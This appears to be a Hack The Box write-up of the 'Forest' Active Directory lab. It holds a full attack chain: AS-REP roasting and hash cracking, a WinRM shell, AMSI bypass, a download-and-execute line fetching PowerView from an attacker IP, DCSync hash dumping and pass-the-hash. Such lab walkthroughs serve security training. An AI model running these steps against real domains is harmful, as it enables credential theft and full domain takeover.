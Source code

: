 # Port enum 
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-11-12 12:14 CET
Nmap scan report for 10.10.10.161
Host is up (0.25s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-12 11:21:16Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6417/tcp  closed faxcomservice
9389/tcp  open   mc-nmf        .NET Message Framing
18126/tcp closed unknown
19749/tcp closed unknown
19938/tcp closed unknown
30611/tcp closed unknown
33708/tcp closed unknown
35470/tcp closed unknown
41785/tcp closed unknown
42375/tcp closed unknown
43152/tcp closed unknown
45303/tcp closed unknown
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49440/tcp closed unknown
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49671/tcp open   msrpc         Microsoft Windows RPC
49676/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open   msrpc         Microsoft Windows RPC
49684/tcp open   msrpc         Microsoft Windows RPC
49706/tcp open   msrpc         Microsoft Windows RPC
50908/tcp closed unknown
54125/tcp closed unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=11/12%Time=67333897%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h46m50s, deviation: 4h37m10s, median: 6m48s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-11-12T03:23:45-08:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-11-12T11:23:41
|_  start_date: 2024-11-12T11:17:22

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 291.21 seconds

```

## Interesting ports
```
Http -> 5985, 47001
samba -> 139, 445
```

Let's dig a little bit into LDAP. Since we know the domain is `htb.local` due to the output of nmap, we can try to anonymously (`-x` option) enumerate all the things referred to this domain (`-b "dc=htb,dc=local`) and the port to be checked is the `-p 389`
```
ldapsearch -h $(cat ip) -p 389 -x -b "dc=htb,dc=local"
```

We can also check for some of the objects created in ldap with #windapsearch to check if there is any interesting service or whatever:
```
./windapsearch.py --dc-ip 10.10.10.161:389 --custom "objectClass=*"
```
There are 301 objects created, and there's one service which may be interesting: `svc-alfresco`. Let's try to get some user. In the docs we check that `svc-alfresco` user does not require Kerberos preauthentication, so we can ask for a Ticket Grant Ticket (TGT):
```
./GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass

$krb5asrep$23$svc-alfresco@HTB.LOCAL:02f6c463d480cafb9f961ade72c722cc$6e8a6b1d8f4e0543f528e83ffeeaa0a64e110d5585fd7d62e17a644cdf332c1419bc2e25e3cc24a38ead97de7bce98e4ef88fc48583dc1c8aa6b6ca3d96af5f07983f1013763f8eff3121e30e7952e65eecaaaa17ff046d337c7ed0f5e2a154266cda58e1e0fe84c30f7ad90915332d262e978d1e7af0d61f7896b20aea5c5c952cb2c2eb75a28b4a5fd756410d10ada80ae63a4dc473b2afb97e20968c88d62d5ab4cf474f2f4d7d1b980e30aa5c5bca3c3e7fff7a52414c6ce42073c436733249761fa6211a00c82075adc0ba17c19d2ee98adb56068ef1f94f6f022424c9e9a4b9465f66c
```

Once again with a [hash-identifier online tool](https://www.dcode.fr/hash-identifier) we can check the hash type to run the proper hashcat mode: `Kerberos 5 AS-REP etype 23` :
```
hashcat -h | grep "Kerberos 5 AS-REP etype 23"
  18200 | Kerberos 5 AS-REP etype 23                       | Network Protocols

hashcat -m 18200 -a 0 svc-alfresco.tgt $SECLIST/../rockyou.txt

pass -> s3rvice
```

Since we have some credentials and we have observed an HTTP server on port 5895, we can try using evil-winrm to retrieve a reverse shell:
```
evil-winrm --ip $(cat ip) --user svc-alfresco --password s3rvice
Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```
And we are in! So we can already dump the user.txt flag:
```
605da...
```

We got stuck and nothing interesting is found with winpeas. So it looks like it's turn to check [BloodHound](https://github.com/SpecterOps/BloodHound) tool:
```
# First create an http server to grab the file from our machine to the host machine, and then you can run the collector and output the information into a zip file
./sharphound.exe -c All -d htb.local --zipfilename loot.zip
```

To retrieve the generated zip, I tried using a python server allowing to post files through the /upload endpoint, but it looks like it's not working.

Let's try to identify if there is any SMB folder I can take advantage of:
#nmap-smb  
```
nmap --script smb-enum-shares.nse $(cat ip)

Host script results:
| smb-enum-shares:
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: <blank>
|   \\10.10.10.161\ADMIN$:
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.161\C$:
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.161\IPC$:
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: READ
|   \\10.10.10.161\NETLOGON:
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: <none>
```

We can access the NETLOGON folder with the svc-alfresco credentials, so let's search for the default path and try to copy there the loot.zip

```
C:/Users/svc-alfresco/Desktop/20241112095310_loot.zip
C:\Users\svc-alfresco\Desktop\20241112095310_loot.zip
```

After stopping and thinking, the evil-winrm itself is able to download files, so let's go:
![[Pasted image 20241112200438.png]]

The main key here is to be able to find a path so that we can add our user to the domain as a privileged users. So, we select our machine (SVC-ALFRESCO) as an owned machine and we then go to the cypher tab and search for the `shortest paths to high value targets`
After some inspection we find out that the `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` group has permissions to `WriteDacl`. So we find if we are in any group that also belongs to the ExchangeWindowsPermissions group. That group is ACCOUNT `OPERATORS@LOCAL.HTB`.

Now it's time to grant this accesses:
```
net user mcflanagan testp4ss! /add /domain

net group "Exchange Windows Permissions" mcflanagan /add

# Tried 
net localgroup "Account Operators" mcflanagan /add
# But access denied, so searching for a group that is contained on Privilegeed It Accounts we find both the tried and the new target group
net localgroup "REMOTE MANAGEMENT USERS" mcflanagan /add
```

Then we have to bypass the 4MSI which can be done with the evil-winrm itself, and then you can download the PowerView.ps1

We will then need to give the new user the rights for DCSync:
```
Bypass-4MSI

iex(new-object net.webclient).downloadstring('http://10.10.16.6:80/powerview.ps1')


$pass = convertto-securestring 'testp4ss!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb.local\mcflanagan' , $pass)
Add-ObjectACL -PrincipalIdentity mcflanagan -Credential $cred -Rights DCSync

```

Then it looks like the next step is to perform a DCSync attack.
By using the impacket tool secretsdump.py we can extract a lot of sensitive data as administrator hash:
```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

Once we have an NTLM hash for adminsitrator, using the psexec tool from impacket we can execute directly commands just with the hash.

```
psexec.py htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

```

And thus finally we obtain the root flag 
```
8063...
```